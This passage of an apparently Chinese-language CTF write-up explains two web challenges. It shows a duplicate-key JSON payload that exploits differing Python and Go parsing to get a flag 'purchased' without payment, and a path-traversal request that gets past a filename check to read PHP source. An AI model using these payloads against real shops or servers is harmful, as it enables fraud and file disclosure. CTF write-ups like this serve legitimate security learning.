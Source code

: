 ```
{"product":[{"id":1,"num":0},{"id":2,"num":0}],"product":[{"id":1,"num":0},{"id":2,"num":1}]}
```

这里python收到以后，会取后者，也就是flag的num为1，而go会取前者，也就是flag的num为0

这个意思就是，python会发货，但是go并不会花钱，达到购买的效果

![image-20220802152859262](https://tuchuang.huamang.xyz/img/image-20220802152859262.png)

![image-20220802152907019](https://tuchuang.huamang.xyz/img/image-20220802152907019.png)

# easyweb

首先是一个文件读取的漏洞，但是要求读取的文件里面必须有demo或者host

那么我们就可以这样做

```
/showfile.php?f=./demo/../index.php
```

读取到下面的文件

index.php

```php
<?php
    $upload = md5("2022qwb".$_SERVER['REMOTE_ADDR']);
    @mkdir($upload, 0333, true);
    if(isset($_POST['submit'])) {
        include 'upload.php';
    }
    ?>
```

upload.php

```php
<?php
error_reporting(0);
require_once('class.php');

if(isset($_SESSION)){
    if(isset($_GET['fname'])?!empty($_GET['fname']):FALSE){
        $_FILES["file"]["name"] = $_GET['fname'];
    }
    $upload = new Upload();
    $upload->upload();
}else {
    die("<p class='tip'>guest can not upload file</p>");
}
?>
```

class.php
